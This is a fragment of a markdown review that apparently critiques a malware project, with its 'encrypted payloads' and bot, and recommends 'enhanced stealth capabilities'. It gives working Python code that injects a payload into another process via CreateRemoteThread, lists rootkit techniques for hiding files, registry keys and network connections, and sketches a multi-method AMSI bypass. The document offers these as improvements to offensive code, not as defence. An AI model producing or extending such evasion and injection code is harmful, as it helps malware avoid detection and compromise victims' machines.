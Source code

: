 4. **Code Quality Issues**
   - Circular imports in encrypted payloads
   - Silent error suppression
   - Bot initialization fragility
   - Missing proper threading

---

## 🚀 Recommended Improvements

### 1. Enhanced Stealth Capabilities

#### A. Process Injection & Hollowing
```python
def inject_into_process(target_pid, payload):
    """Advanced process injection using CreateRemoteThread"""
    # Open target process
    hProcess = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, target_pid)
    
    # Allocate memory in target
    remote_addr = kernel32.VirtualAllocEx(
        hProcess, 0, len(payload), 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_EXECUTE_READWRITE
    )
    
    # Write payload
    kernel32.WriteProcessMemory(
        hProcess, remote_addr, payload, 
        len(payload), None
    )
    
    # Create remote thread
    kernel32.CreateRemoteThread(
        hProcess, None, 0, remote_addr, 
        None, 0, None
    )
```

#### B. Rootkit Functionality
- SSDT hooking for API interception
- Direct kernel object manipulation (DKOM)
- File/Registry hiding via filter drivers
- Network connection hiding

#### C. Advanced AMSI Bypass
```python
def bypass_amsi_advanced():
    """Multi-method AMSI bypass"""
    # Method 1: Patch AmsiScanBuffer
    # Method 2: Unhook AmsiScanString
    # Method 3: Load custom AMSI provider
    # Method 4: ETW patching
```
